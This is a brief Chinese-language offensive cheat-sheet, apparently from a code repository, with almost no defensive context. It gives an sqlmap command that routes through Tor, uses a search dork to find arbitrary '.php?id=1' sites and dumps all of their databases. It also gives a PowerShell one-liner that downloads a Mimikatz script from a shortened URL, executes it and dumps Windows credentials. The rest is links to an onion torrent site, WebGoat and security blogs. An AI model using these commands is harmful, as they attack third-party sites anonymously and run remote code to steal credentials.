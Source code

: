 ### Sqlmap 匿名使用

```sqlmap
sqlmap --tor --tor-type=SOCKS5 -g "inurl:.php?id=1" --random-agent --dump-all --batch 
--time-sec=15
Script Breakdown
--tor
```

延时注入

[github:Webgoat](https://github.com/WebGoat/WebGoat)

### Onion

Torrents

http://uj3wazyk5u4hnvtk.onion/

### win本地密码抓取

```powershell
powershell "IEX (New-Object Net.WebClient).DownloadString('http://is.gd/oeoFuI');Invoke-Mimikatz -DumpCreds"
```

https://www.secpulse.com/archives/51527.html

https://www.secpulse.com/archives/32189.html

http://secoff.net/





